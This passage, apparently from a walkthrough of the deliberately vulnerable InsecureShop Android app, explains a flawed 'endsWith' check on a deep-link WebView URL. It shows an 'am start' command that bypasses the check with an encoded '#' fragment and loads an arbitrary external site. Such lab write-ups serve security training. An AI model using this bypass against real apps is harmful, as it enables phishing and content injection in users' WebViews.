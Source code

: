 Let’s examine our code to know what it is doing:

- Getting the Intent Data and storing it on a URI Object.
- Checking If the Path of the URL contains `/webview`.
- Checking If the passed data from the intent contains a `?url=` parameter and its value is not empty.
- Checking If the `?url=` query parameter value ends with `insecureshopapp.com`.
- Lastly, it will take the value of the URL parameter `?url=` and store it in the variable `data4` .
- At the end, it loads a WebView of the variable data if it’s not null `webview.loadUrl(data);` .

By examining the code, we observed:

- The new code prevents the user from loading any URL other than `"insecureshopapp.com"`. So it checks if the URL query parameter value ends with it.
- but we can bypass that easily by just adding the fragment `#` and URL encode it. This will bypass the `endwith` function check and load the desired URL.

Let’s Craft our exploit:

```bash
# Scheme: insecureshop
# Host: com.insecureshop
# Path: /webview/
# Parameter: ?url=
root@generic_x86:/ $ am start -a android.intent.action.VIEW -d insecureshop://com.insecureshop/webview?url=https://itsfading.github.io%23insecureshopapp.com
Starting: Intent { act=android.intent.action.VIEW dat=insecureshop://com.insecureshop/webview?url=https://itsfading.github.io#insecureshopapp.com }
```

![image.png](/assets/InsecureShop/image%207.png)

## **Access to Protected Components ( Intent Redirection )**
